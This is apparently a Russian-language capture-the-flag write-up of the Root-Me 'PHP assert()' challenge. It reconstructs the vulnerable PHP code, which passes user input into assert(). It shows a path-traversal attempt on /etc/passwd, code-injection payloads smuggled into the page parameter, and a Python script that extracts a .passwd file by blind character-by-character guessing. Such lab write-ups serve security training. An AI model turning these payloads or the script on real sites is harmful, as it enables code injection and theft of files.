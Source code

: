 # PHP assert()

25 Points
Read the doc!

Попробуем осуществить LFI атаку с помощью GET-параметра page. попробуем с помощью него открыть /etc/passwd:
http://challenge01.root-me.org/web-serveur/ch47/?page=../../../../../etc/passwd
Выводится предупреждение:

Warning: assert(): Assertion "strpos('includes/../../../../../etc/passwd.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!

Это приложение использует функцию assert, чтобы проверить ложно ли утвеждение.
PHP код этого приложения выглядит примерно так:

```php
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}
$file = "includes/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!"); // уязвимый код!
?>
```
Попробуем ввести зловредный код, используя слепую технику. 

```
http://challenge01.root-me.org/web-serveur/ch47/?page=', 'qwer') === false && strlen(file_get_contents(".passwd")) == 0 && strpos('1
```

Сервер отвечает нам:

> Warning: assert(): Assertion "strpos('includes/', 'qwer') === false && strlen(file_get_contents(".passwd")) == 0 && strpos('1.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8
>
> Detected hacking attempt!

то есть, когда условие FALSE

``` 
http://challenge01.root-me.org/web-serveur/ch47/?page=', 'qwer') === false && strlen(file_get_contents(".passwd")) > 0 && strpos('1
```

Сервер отвечает нам:

>  'includes/', 'qwer') === false && strlen(file_get_contents(".passwd")) > 0 && strpos('1.php'File does not exist

то есть, когда условие TRUE

Напишем на python скрипт для чтения файла:

```python
import base64
import string
import requests
import urllib

url = "http://challenge01.root-me.org/web-serveur/ch47/"


def check(payload):
    params = urllib.urlencode({'page': payload})
    try:
        r = requests.get(url, params=params)
    except requests.exceptions.ConnectionError:
        r = requests.get(url, params=params)
    return "Warning" not in r.text


base = "/', 'qwer') === false && %s && strpos('1"

def get_len(path):
    i = 10
    while True:
        payload = 'strlen(file_get_contents("%s")) < %d' % (path, i)
        if check(base % payload):
            for j in range(i-10, i):
                payload = 'strlen(file_get_contents("%s")) == %d' % (path, j)
                if check(base % payload):
                    print "Found Length = %d" % j
                    return j
        i += 10

def read_file_contents(path):
    length = get_len(path)
    s = ""
    while len(s) < length:
        for c in string.printable:
            tmp = s + c
            payload = 'substr(file_get_contents("%s"), 0, %d) == base64_decode("%s")' % (
            path, len(tmp), base64.b64encode(tmp))

            if check(base % payload):
                s += c
                print s
    print s

print read_file_contents('.passwd')
```